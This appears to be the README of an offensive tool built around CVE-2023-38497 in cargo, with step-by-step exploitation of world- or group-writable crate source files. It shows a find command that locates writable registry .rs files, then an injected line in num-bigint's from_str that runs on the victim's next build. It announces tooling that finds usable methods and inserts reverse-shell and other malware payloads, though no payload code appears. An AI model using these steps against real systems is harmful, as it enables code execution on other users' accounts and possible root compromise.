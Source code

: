 
## Description
A new vulnerability in cargo version `1.7.0` has been found as explained [here](https://blog.rust-lang.org/2023/08/03/cve-2023-38497.html).

## Step by Step

First you have to make sure your cargo version is vulnerable

`cargo --version`

Supose I have a cargo project with the following `src/main.rs` file:

```
use num_bigint::BigInt;
use std::str::FromStr;

// Silly guessing game
fn main() {
    let secret_number = BigInt::from_str("123456789");
    loop {
        println!("Make a guess: ");
        let mut guess = String::new();
        std::io::stdin()
            .read_line(&mut guess)
            .expect("Error reading stdin");
        let guess = BigInt::from_str(guess.trim());
        if guess == secret_number {
            println!("That's right");
            break;
        }
    }
}
```

If I run the program:
```
cargo run
Make a guess:
20
Make a guess:
123456789
That's right!
```

Nothing wrong here.

Next, for all installed crates in your system, filter the ones whose permissions have bad configuration, that is, can be written by group or any other machine users

`find ~/.cargo/registry/src/* -type f -writable -print | egrep "*\.rs"`

This will yield a list of all vulnerable rust source files. From these chose the file that is suitable for your attack, which should be one in which there is defined a method that is used in the source code of the target cargo project.

And from the listing above I find the following vulnerable file: 

`$HOME/.cargo/registry/src/index.crates.io-.../num-bigint-0.1.44/src/bigint.rs`

Which as promised previously has the following permissions: `-rw-rw-r--`

Therefore it can be modified by any user in the same group as the cargo project owner, that's scary. But imagine any user could write that file, well there are crates with such permissions.

Now you can add a new user to your machine, or use an existing one other than the project user which belongs to the same group as the user for the file we're targeting. For example that source file in my machine has the following owner and group
`atreides people`
and another user I have, returns the following from running `id` command on him:

`uid=54322(bob) gid=54331(bob) groups=54331(bob),1000(people)`

Now we know user `bob` can write our target file and any other with such permissions. Switch to `bob` and follow up.

Taking a look into our guessing game we can see it is being used the `from_str` method from `BigInt` struct. That could be an interesting method to look at.

From the target file I've extracted this piece of code: 
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        BigInt::from_str_radix(s, 10)
    }
}
```

Now, what if you make it look like this
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        println!("Message from beyond");
        BigInt::from_str_radix(s, 10)
    }
}
```

And rerun it:
```
cargo run
Make a guess:
20
Message from beyond
Make a guess:
123456789
Message from beyond
That's right!
```

Woah! Imagine you are writting your cargo project and you get the following messages.

Note that this will only happen whenever the target directory has been deleted previously, that is, cargo has to compile the crate after you modify the source file.

Now, this is only a demo on how to exploit this vulnerability, but imagine if you place any sort of payload inside a source file. This repo aims to establish reverse shell connection with the user's account whenever he runs a cargo project.

This is a mayor vulnerability if you consider that there could be cargo installations with root privileges so the placed payload would be executing with such permissions.

# Project Structure

In this project you will find the following utilities:

## Vulnerability analyzer

Searches accross the local cargo archive and a target cargo project to find all specific methods that could be exploited in the target's source code.

### Usage

## Available payloads

All payload types (reverse shell mainly and other malware) that can be placed inside a target crate source code. All available payloads as of now are:

- Reverse Shell (first that will be implemented)

## Integration

Takes one of the payloads listed above and a selected method to exploit from the vulnerability analyzer and integrates (copy and paste) the payload into the source code.
